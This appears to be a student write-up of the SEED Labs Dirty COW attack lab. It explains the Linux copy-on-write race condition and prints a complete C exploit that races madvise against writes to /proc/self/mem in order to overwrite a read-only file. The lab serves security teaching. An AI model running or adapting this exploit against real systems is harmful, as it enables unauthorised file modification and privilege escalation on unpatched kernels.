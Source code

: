 # Dirty-COW Attack Lab

## Lab link: https://seedsecuritylabs.org/Labs_20.04/Software/Dirty_COW/

## Exploiting Dirty COW

The following code first maps a read-only file to memory using MAP_PRIVATE, then it creates two threads, one doing an infinite loop of `madvise(map, file_size, MADV_DONTNEED);`, the other one opening the pseudo-file of the current process's memory and busy-trying to write to it. 

How the exploit works?

Linux has the Copy-On-Write mechanism. So it will only try to copy the page when the `writeThread` tries to actually override the memory address. 

But the crucial observation is:

> `write` is not atomic!

When we call `write()`, because of COW, actually there are three steps involved:

- Copy the page to another page in memory
- Change Page Table in the process
- Do the actual write

And this write thread can be switched to another thread at any point. Consider the case that it got switched out to the `madviseThread` after finishing first two steps and before entering step 3,  `madviseThread` becomes active and `madvise` will tell the kernel to discard our private mapping of the read-only file, and starts wrting to the original file. As a result, we successfully write to a read-only file!

Here is a nice demo: https://www.cs.toronto.edu/~arnold/427/18s/427_18S/indepth/dirty-cow/demo.html

```c
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;
void *writeThread(void *arg);
void *madviseThread(void *arg);

int main(int argc, char *argv[])
{
  pthread_t pth1,pth2;
  struct stat st;
  int file_size;

  // Open the target file in the read-only mode.
  int f=open("/zzz", O_RDONLY);

  // Map the file to COW memory using MAP_PRIVATE.
  fstat(f, &st);
  file_size = st.st_size;
  map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

  // Find the position of the target area
  char *position = strstr(map, "222222");                        

  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); 
  pthread_create(&pth2, NULL, writeThread, position);             

  // Wait for the threads to finish.
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
}

void *writeThread(void *arg)
{
  char *content= "******";
  off_t offset = (off_t) arg;

  int f=open("/proc/self/mem", O_RDWR);
  while(1) {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}

void *madviseThread(void *arg)
{
  int file_size = (int) arg;
  while(1){
      madvise(map, file_size, MADV_DONTNEED);
  }
}



```
